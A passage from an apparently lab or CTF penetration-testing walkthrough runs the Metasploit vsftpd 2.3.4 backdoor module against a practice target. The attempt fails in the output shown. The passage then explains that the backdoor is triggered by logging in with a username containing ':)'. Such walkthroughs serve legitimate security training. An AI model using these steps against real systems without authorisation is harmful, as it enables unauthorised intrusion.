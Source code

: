 Each exploit we want to use will have different information that we need to set for the exploit to work, so lets check what details this exploit needs. You can use the info command to get more details about the exploit. in this case we'll use the show options command to see what options we need to set for this particular exploit.

```bash
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options
Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target address range or CIDR identifier
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

From the options command we can see that their are two variables that can set (RHOSTS & RPORT) and that both are required values. We can also see that RPORT has already been set for us with the value 21. So we just need to set the RHOSTS value as the IP address of our target. Let's do that now.

```bash
$ set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3

```

Now that we have all of the required variables set we can launch the exploit and hopefully get root access to the server. We can launch our exploit using the exploit command.


```bash
$ exploit
[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```
Unfortunately in this case the exploit failed to work. This can often happen and sometimes its worth rerunning an exploit a few times but in this case we won't get any joy with this particular exploit. This exploit was never a weakness in the code it was hackers who got access to the sour ce code and added in a backdoor rather than exploiting a weakness in some code. The weakness only existed a few days before it was removed. There was no major code patches or updates so the version number was never changed.. so Some (very few) 2.3.4 versions were vulnerable while others where not.

If you investigated the weakness you'll see the backdoor was triggered by just trying to login using the username :), so we didn't have to use metasploit we could have just tried to ftp onto the server with the username :). This vulnerability is the metasploitable VM if you want to try it for yourself.

### 7. Further investigations
